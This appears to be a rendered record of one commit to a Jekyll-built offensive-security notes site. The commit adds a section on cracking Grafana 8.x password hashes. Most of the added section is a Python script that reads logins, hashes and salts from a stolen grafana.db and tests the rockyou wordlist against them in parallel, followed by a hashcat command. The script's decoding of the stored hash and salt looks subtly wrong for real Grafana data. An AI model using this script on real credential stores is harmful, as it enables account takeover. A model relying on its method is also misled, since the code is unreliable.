

Before and after one commit to v0idravl/hakiki, a Jekyll site: the page built from credentials/password_attacks.md, in a window 1280 px wide and 1400 px high, scrolled down 1200 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
credentials: add Grafana PBKDF2 dklen=50 cracking note
Hashcat mode 10900 and john both default to dklen=32 and silently miss
Grafana 8.x hashes. Add a subsection under hashcat with a parallelised
Python hashlib.pbkdf2_hmac(dklen=50) cracker and a note that mode 10900
is still worth a fast first attempt but expect failure on stock Grafana.

````diff
--- a/credentials/password_attacks.md
+++ b/credentials/password_attacks.md
@@ -49,6 +49,34 @@
 # Show cracked results
 hashcat -m 1000 ntlm.txt --show
 ```
+
+### Grafana PBKDF2-SHA256 (dklen=50 -- hashcat/john miss this)
+
+> **Grafana 8.x hashes use `PBKDF2-HMAC-SHA256(pw, salt, 10000, dklen=50)`.
+> Hashcat mode 10900 defaults to `dklen=32`; john's PBKDF2-HMAC-SHA256 format has the same mismatch.
+> Both will silently fail even with the correct password. Skip standard crackers; use Python:**
+
+```python
+# crack_grafana.py -- parallelised PBKDF2-SHA256 dklen=50
+import sqlite3, base64, hashlib, multiprocessing
+
+def check(args):
+    pw, salt_b64, stored_b64 = args
+    derived = hashlib.pbkdf2_hmac(
+        'sha256', pw.encode(), base64.b64decode(salt_b64), 10000, dklen=50)
+    return pw if derived == base64.b64decode(stored_b64) else None
+
+conn = sqlite3.connect('grafana.db')
+for login, pw_b64, salt_b64 in conn.execute("SELECT login,password,salt FROM user"):
+    args = [(w.strip(), salt_b64, pw_b64)
+            for w in open('/usr/share/wordlists/rockyou.txt', errors='ignore')]
+    with multiprocessing.Pool() as pool:
+        for r in pool.imap_unordered(check, args, chunksize=1000):
+            if r:
+                print(f"{login}: {r}"); break
+```
+
+> hashcat `sha256:10000:<b64salt>:<b64hash>` mode 10900 -- still worth a fast first attempt (seconds); expect failure on stock Grafana 8.x.
 
 ## john
 
````
